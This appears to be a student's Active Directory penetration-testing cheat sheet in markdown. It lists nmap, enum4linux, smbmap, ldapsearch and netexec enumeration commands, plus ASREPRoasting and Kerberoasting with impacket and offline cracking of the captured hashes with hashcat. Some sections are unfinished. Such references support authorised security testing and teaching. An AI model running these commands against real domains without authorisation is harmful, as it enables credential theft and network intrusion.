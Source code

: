 # Active Directory Cheat sheet - ITHS2023


## Table of Contents

- [Overview](#overview)
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
  - [ASREPRoasting](#asreproasting)
  - [Kerberoasting](#kerberoasting)
- [Post-Exploitation](#post-exploitation)
- [Resources](#resources)

## Overview
More to come...

## Reconnaissance

### Network Enumeration
- **Enumerate SMB across a subnet:**
  ```bash
  netexec smb 10.2.10.1/24
  ```

### Nmap Scans
- **Ping scan:**
  ```bash
  nmap -sP -p
  ```
- **Quick scan:**
  ```bash
  nmap -PN -sV --top-ports 50 --open
  ```
- **SMB vulnerability scan:**
  ```bash
  nmap -PN --script smb-vuln* -p139,445
  ```
- **Classic scan:**
  ```bash
  nmap -PN -sC -sV -oA
  ```
- **Full scan:**
  ```bash
  nmap -PN -sC -sV -p- -oA
  ```
- **UDP scan:**
  ```bash
  nmap -sU -sC -sV -oA
  ```
- **Scan with no ping and save output:**
  ```bash
  nmap -sC -sV -Pn -p- -oA filename -vv
  ```

## Enumeration

### LDAP Enumeration
- **Basic LDAP search:**
  ```bash
  ldapsearch -x -h <ip> -s base
  ```
- **Nmap LDAP enumeration:**
  ```bash
  nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
  ```

### SMB Enumeration
- **Null session enumeration:**
  ```bash
  enum4linux -a -u "" -p ""
  ```
- **Guest session enumeration:**
  ```bash
  enum4linux -a -u "guest" -p ""
  ```
- **Check SMB shares and permissions:**
  ```bash
  smbmap -u "" -p "" -P 445 -H <ip>
  ```
- **Connect to SMB server:**
  ```bash
  impacket-smbclient domain/user@<ip>
  ```

### User Enumeration
- **List users on the domain:**
  ```bash
  enum4linux -U | grep 'user:'
  ```
- **Retrieve users via netexec:**
  ```bash
  netexec smb --users
  ```
- **Enumerate domain users via net RPC:**
  ```bash
  net rpc group members 'Domain Users' -W '' -I '' -U '%'
  ```
- **Enumerate Kerberos users:**
  ```bash
  nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='',userdb=<users_list_file>"
  ```

## Exploitation

### ASREPRoasting
- **Find users without Kerberos preauthentication enabled and save hashes:**
  ```bash
  impacket-GetNPUsers domain/ -usersfile userfile.txt -format hashcat -outputfile hashfile
  ```
- **Crack hashes using hashcat:**
  ```bash
  hashcat -m 18200 hashes wordlist.txt
  ```

### Kerberoasting
- **List users with SPNs:**
  ```bash
  impacket-GetUserSPNs domain/user:password
  ```
- **Save Kerberoast hashes:**
  ```bash
  impacket-GetUserSPNs domain/user:password -outputfile hashes -request
  ```
- **Alternative approach using netexec:**
  ```bash
  netexec ldap <dc_ip> -u <user> -p <password> -d <domain> --kerberoasting KERBEROASTING
  ```

## Post-Exploitation

- **Extract user list for OSINT:**
  Use gathered usernames for further reconnaissance on the internet to identify related information.

## Resources

- [Impacket GitHub Repository](https://github.com/SecureAuthCorp/impacket)
- [Hashcat Official Website](https://hashcat.net/hashcat/)
- [Nmap Official Documentation](https://nmap.org/docs.html)
- [enum4linux GitHub Repository](https://github.com/Carnal0wnage/enum4linux)

---

